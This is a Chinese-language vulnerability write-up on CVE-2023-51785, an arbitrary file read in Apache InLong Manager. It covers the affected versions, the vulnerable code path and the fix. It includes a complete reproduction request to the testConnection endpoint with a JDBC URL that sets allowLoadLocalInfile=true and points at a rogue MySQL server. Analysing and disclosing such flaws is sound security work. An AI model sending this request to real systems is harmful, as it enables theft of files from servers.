






# Apache InLong Manager Arbitrary File Read Vulnerability(CVE-2023-51785) 漏洞分析 - 先知社区

Apache InLong Manager Arbitrary File Read Vulnerability(CVE-2023-51785) 漏洞分析

- - -

# 漏洞描述

Apache InLong 中的不受信任数据漏洞。此问题影响 Apache InLong：从 1.7.0 到 1.9.0，攻击者可以使用 mysql 驱动程序进行任意文件读取攻击。建议用户升级到 Apache InLong 的 1.10.0 或 cherry-pick \[1\]来解决这个问题。

# 漏洞版本

从 1.7.0 到 1.9.0

# 环境搭建

[How to Build | Apache InLong](https://inlong.apache.org/docs/quick_start/how_to_build)  
[Standalone | Apache InLong](https://inlong.apache.org/docs/deployment/standalone)

# 代码分析

看修复代码定位到：StarRocksDataNodeOperator.testConnection  
溯源上去是：org.apache.inlong.manager.web.controller.DataNodeController#testConnection  
一直调用到：org.apache.inlong.manager.service.node.starrocks.StarRocksDataNodeOperator#testConnection

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125172555-bdd3de6c-bb63-1.png)

org.apache.inlong.manager.service.resource.sink.starrocks.StarRocksJdbcUtils#getConnection

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125172604-c3105630-bb63-1.png)

这里进行了判断，不为空且 STAR\_ROCKS 也是调用的 mysql

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125172612-c7cccad2-bb63-1.png)

判断结束后直接反射然后 getConnection 造成 jdbc attck

# 漏洞复现

使用[GitHub - rmb122/rogue\_mysql\_server: A rouge mysql server supports reading files from most mysql libraries of multiple programming languages.](https://github.com/rmb122/rogue_mysql_server)  
本地搭建 evil mysql server，然后发送请求

```plain
POST /inlong/manager/api/node/testConnection HTTP/1.1
Host: 172.18.178.167:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: application/signed-exchange;v=b3;q=0.7,*/*;q=0.8
Purpose: prefetch
Referer: http://172.18.178.167:8083/inlong/manager/doc.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Cookie:JSESSIONID=42127a67-091a-464d-b340-2ff7663a6ee8;
Content-Type: application/json
Content-Length: 276

{
  "description": "",
  "displayName": "a",
  "extParams": "a",
  "id": 0,
  "inCharges": "",
  "name": "fileread",
  "token": "",
  "type": "STARROCKS",
  "url": "jdbc:mysql://172.18.176.1:3308/test?allowLoadLocalInfile=true",
  "username": "a",
  "version": 0
}
```

成功读取文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125172655-e1914e66-bb63-1.png)

# 漏洞修复

[\[INLONG-9330\]\[Manager\] Add encoding check to the StarRocks JDBC URL by hnrainll · Pull Request #9331 · apache/inlong · GitHub](https://github.com/apache/inlong/pull/9331)  
将编码检查添加到 StarRocks JDBC URL，在 mysql JDBC URL 的 URL 编码中添加检查。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125172717-eec2be4e-bb63-1.png)

限制了 mysql 的文件读取

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125172729-f5eb4204-bb63-1.png)
